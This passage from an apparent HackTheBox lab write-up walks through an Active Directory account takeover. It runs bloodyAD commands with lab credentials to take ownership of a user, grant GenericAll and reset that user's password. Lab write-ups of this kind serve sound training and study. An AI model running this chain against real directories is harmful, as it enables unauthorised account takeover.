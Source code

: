 So now we own Sam user account.

### Sam → John

![image.png](/assets/images/Tombwatcher_HTB/image%2015.png)

Now as user Sam we have **WriteOwner** permissions on John, we set the owner of John account as Sam.

```bash
bloodyAD --host "10.129.232.198" -d "tombwatcher.htb" -u "sam" -p "aashwin29!" set owner "john" "sam"
```

![image.png](/assets/images/Tombwatcher_HTB/image%2016.png)

Now as the owner of John account, I can now grant Sam **GenericAll** on John.

```bash
bloodyAD --host "10.129.232.198" -d "tombwatcher.htb" -u "sam" -p "aashwin29!" add genericAll "john" "sam"
```

![image.png](/assets/images/Tombwatcher_HTB/image%2017.png)

Now we have generic all so we can change the password of John as Sam.

```bash
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u "sam" -p "aashwin29!" set password "john" "aashwin7!"
```

![image.png](/assets/images/Tombwatcher_HTB/image%2018.png)
